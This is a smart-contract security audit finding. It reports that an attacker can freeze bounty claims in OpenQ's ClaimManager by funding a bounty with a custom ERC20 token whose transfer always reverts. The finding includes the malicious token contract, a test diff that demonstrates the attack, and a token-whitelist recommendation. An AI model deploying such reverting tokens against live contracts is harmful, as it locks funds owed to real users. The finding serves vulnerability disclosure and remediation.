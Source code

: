 libratus

high

# Attacker can fund a bounty with an invalid token and freeze all claims

## Summary
Attacker can fund a bounty with a custom token that will revert when bounty is claimed. This will prevent any bounty tokens to be transferred to the winner.

## Vulnerability Detail
In `ClaimManager` code goes over all bounty tokens and sends them one by one to the closer
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/ClaimManager/Implementations/ClaimManagerV1.sol#L130-L134

If transfer reverts for one of the tokens, the whole claim process will fail. Funding bounties with tokens is permissionless. There is no guard on `DepositManagerV1.fundBountyToken`. This allows an attacker to create a fake ERC20 token that will always revert during claim and fund any bounty with it. This will freeze claims for the bounty.

## Impact
Claim can be broken for any bounty

## Code Snippet
Fake token to use in the test case:
```solidity
import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

contract MockAttackerToken is ERC20 {
    address public admin;

    constructor() ERC20('Mock Attacker', 'mATTCK') {
        _mint(msg.sender, 10000 * 10**18);
        admin = msg.sender;
    }

    function transfer(address to, uint256 amount) public virtual override returns (bool) {
        if (msg.sender != admin) revert("Block token transfer");
        return super.transfer(to, amount);
    }
}
```

Test case:
```diff
diff --git a/test/ClaimManager.test.js b/test/ClaimManager.test.js
index 41be3ce..847b383 100755
--- a/test/ClaimManager.test.js
+++ b/test/ClaimManager.test.js
@@ -36,6 +36,7 @@ describe('ClaimManager.sol', () => {
        let mockNft;
        let openQTokenWhitelist;
        let mockKyc;
+       let mockAttackerToken;
 
        let claimManagerImplementation;
 
@@ -46,6 +47,7 @@ describe('ClaimManager.sol', () => {
        let claimant;
        let claimantSecondPlace;
        let claimantThirdPlace;
+       let attacker;
 
        // CONSTANTS
        let zeroTier
@@ -85,6 +87,7 @@ describe('ClaimManager.sol', () => {
                const DepositManager = await ethers.getContractFactory('DepositManagerV1');
                const ClaimManager = await ethers.getContractFactory('ClaimManagerV1');
                const MockKyc = await ethers.getContractFactory('MockKyc');
+               const MockAttackerToken = await ethers.getContractFactory('MockAttackerToken');
 
                AtomicBountyV1 = await ethers.getContractFactory('AtomicBountyV1');
                OngoingBountyV1 = await ethers.getContractFactory('OngoingBountyV1');
@@ -107,7 +110,7 @@ describe('ClaimManager.sol', () => {
                const BountyFactory = await ethers.getContractFactory('BountyFactory');
                const BountyBeacon = await ethers.getContractFactory('BountyBeacon');
 
-               [owner, claimant, oracle, claimantSecondPlace, claimantThirdPlace, notOwner] = await ethers.getSigners();
+               [owner, claimant, oracle, claimantSecondPlace, claimantThirdPlace, notOwner, attacker] = await ethers.getSigners();
 
                openQImplementation = await OpenQImplementation.deploy();
                await openQImplementation.deployed();
@@ -133,6 +136,9 @@ describe('ClaimManager.sol', () => {
                blacklistedMockDai = await MockDai.deploy();
                await blacklistedMockDai.deployed();
 
+               mockAttackerToken = await MockAttackerToken.connect(attacker).deploy();
+               await mockAttackerToken.deployed();
+
                mockNft = await MockNft.deploy();
                await mockNft.deployed();
 
@@ -198,6 +204,7 @@ describe('ClaimManager.sol', () => {
                abiCoder = new ethers.utils.AbiCoder;
 
                atomicBountyInitOperation = atomicBountyInitOperation_fundingGoal(mockLink.address)
+               atomicBountyPermissionedInitOperation = atomicBountyInitOperation_permissioned(mockLink.address)
                ongoingBountyInitOperation = ongoingBountyInitOperationBuilder(mockLink.address)
                
                tieredPercentageBountyInitOperation_permissionless = tieredBountyInitOperationBuilder_permissionless(mockLink.address)
@@ -443,6 +450,94 @@ describe('ClaimManager.sol', () => {
                                        // ASSERT
                                        expect(await mockNft.ownerOf(1)).to.equal(owner.address);
                                });
+
+                               it('should transfer rewards if bounty was funded by attacker\'s token', async () => {
+                                       // ARRANGE
+                                       const volume = 100;
+                                       await openQProxy.mintBounty(Constants.bountyId, Constants.organization, atomicBountyInitOperation);
+
+                                       const bountyAddress = await openQProxy.bountyIdToAddress(Constants.bountyId);
+
+                                       await mockDai.approve(bountyAddress, 10000000);
+                                       await depositManager.fundBountyToken(bountyAddress, mockDai.address, volume, 1, Constants.funderUuid);
+
+                                       // Attacker funds invalid token
+                                       await mockAttackerToken.connect(attacker).approve(bountyAddress, 1000);
+                                       await depositManager.connect(attacker).fundBountyToken(bountyAddress, mockAttackerToken.address, 1000, 1, Constants.funderUuid);
+
+                                       // // // ACT
+
+                                       await claimManager.connect(oracle).claimBounty(bountyAddress, claimant.address, abiEncodedSingleCloserData);
+
+                                       // // ASSERT
+                                       const newBountyFakeTokenBalance = (await mockDai.balanceOf(bountyAddress)).toString();
+                                       expect(newBountyFakeTokenBalance).to.equal('0');
+
+                                       const newClaimerFakeTokenBalance = (await mockDai.balanceOf(claimant.address)).toString();
+                                       expect(newClaimerFakeTokenBalance).to.equal('100');
+                               });

```


## Tool used

Manual Review

## Recommendation

Each bounty can have a permissioned list of tokens configured by the bounty owner